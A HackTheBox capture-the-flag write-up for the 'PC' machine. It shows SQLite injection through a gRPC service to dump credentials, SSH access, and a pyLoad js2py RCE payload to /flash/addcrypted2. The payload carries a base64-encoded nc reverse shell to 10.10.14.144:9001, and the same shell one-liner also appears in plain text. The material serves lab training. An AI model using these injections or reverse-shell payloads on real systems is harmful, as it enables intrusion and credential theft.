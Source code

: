 ```yaml
---
layout: post
title:  "Writeup of PC (HackTheBox)"
date:   2023-11-18 18:06:00 +0000
categories: hackthebox
author: brun0ne
tags: htb hackthebox pc grpc pyLoad
---
```


# Enumeration

`grpcurl -plaintext 10.10.11.214:50051 describe`

```
SimpleApp is a service:
service SimpleApp {
  rpc LoginUser ( .LoginUserRequest ) returns ( .LoginUserResponse );
  rpc RegisterUser ( .RegisterUserRequest ) returns ( .RegisterUserResponse );
  rpc getInfo ( .getInfoRequest ) returns ( .getInfoResponse );
}
grpc.reflection.v1alpha.ServerReflection is a service:
service ServerReflection {
  rpc ServerReflectionInfo ( stream .grpc.reflection.v1alpha.ServerReflectionRequest ) returns ( stream .grpc.reflection.v1alpha.ServerReflectionResponse );
}
```

# Looking for trouble

`grpcurl -d '{"username":"user","password":"test1"}' -plaintext 10.10.11.214:50051 SimpleApp/RegisterUser`

```json
Response contents:
{
  "message": "Account created for user user!"
}

Response trailers received:
(empty)
```

`grpcurl -d '{"username":"user","password":"test1"}' -vv -plaintext 10.10.11.214:50051 SimpleApp/LoginUser`

```json
Response contents:
{
  "message": "Your id is 128."
}

Response trailers received:
token: b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidXNlciIsImV4cCI6MTY4NjA5MDg1NH0.WZ1FKemOtkPPnYP0eXjNPzK4cCIJYk2Y1Z_3lq8a7y8'
```

**admin:admin** also works (gives a random ID).
**JWT token!**

`grpcurl -emit-defaults -H 'token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidXNlciIsImV4cCI6MTY4NjA5MDg1NH0.WZ1FKemOtkPPnYP0eXjNPzK4cCIJYk2Y1Z_3lq8a7y8' -d '{"id":"142"}' -plaintext 10.10.11.214:50051 SimpleApp/getInfo`

```json
Response contents:
{
  "message": "Will update soon."
}

Response trailers received:
(empty)
```

`grpcurl -emit-defaults -H 'token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODYwOTQwMjl9.Z8ucE3bg0DfS7hTyw0ghWNf2s7IfA-hb4kxpy7QxtkE' -d '{"id":"464;sd"}' -vv -plaintext 10.10.11.214:50051 SimpleApp/getInfo`

```
ERROR:
  Code: Unknown
  Message: Unexpected <class 'sqlite3.Warning'>: You can only execute one statement at a time.
```

# SQLite3 injection!

`injection.sh:`
```
x=$(cat injection.txt); grpcurl -emit-defaults -H 'token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODYwOTQwMjl9.Z8ucE3bg0DfS7hTyw0ghWNf2s7IfA-hb4kxpy7QxtkE' -d '{"id":"'"$x"'"}' -vv -plaintext 10.10.11.214:50051 SimpleApp/getInfo
```

### When injection.txt is...

`1 UNION select sqlite_version();`

```
Response contents:
{
  "message": "3.31.1"
}
```

### We can enumerate tables using:
`5 UNION select tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' LIMIT 1 OFFSET 1;`

```
accounts, messages
```

### ...and rows using:
`5 UNION select name FROM PRAGMA_TABLE_INFO('accounts') LIMIT 1 OFFSET 0;`

```
username, password
```

`5 UNION select name FROM PRAGMA_TABLE_INFO('messages') LIMIT 1 OFFSET 0;`

```
id, message, username
```

# Getting creds

`5 UNION select username FROM accounts LIMIT 1 OFFSET 0;`

```
admin:admin
sau:HereIsYourPassWord1431
```

# Getting messages

`5 UNION select message FROM messages LIMIT 1 OFFSET 0;`

```
The admin is working hard to fix the issues.
Will update soon.
```

# SSH user

**sau:HereIsYourPassWord1431** works for SSH!

`user.txt: <redacted>`

# Enumeration
```
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
```

`ssh sau@10.10.11.214 -L 8000:localhost:8000 -L 9666:localhost:9666`

**pyLoad** running on ports 8000 and 9666.

# pyLoad?

default creds **pyload:pyload** don't work

`sau@pc:/etc/systemd/system$ cat pyload.service `

```
[Unit]
Description=pyload service
After=network.target

[Service]
Type=simple
User=root
ExecStart=/usr/local/bin/pyload
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

# Root

This reverse shell works (on sau):

`rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.144 9001 >/tmp/f`

[There is a known RCE.](https://packetstormsecurity.com/files/171096/pyLoad-js2py-Python-Execution.html)

**POST to :8000/flash/addcrypted2**

```
crypted=&jk=pyimport os;pyimport sys;pyimport base64;_=base64.b64decode("cm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI%2bJjF8bmMgMTAuMTAuMTQuMTQ0IDkwMDEgPi90bXAvZg%3d%3d");os.popen(sys.version_info[0] < 3?_:_.decode('utf-8'));f=function f2(){};
```

`root.txt: <redacted>`
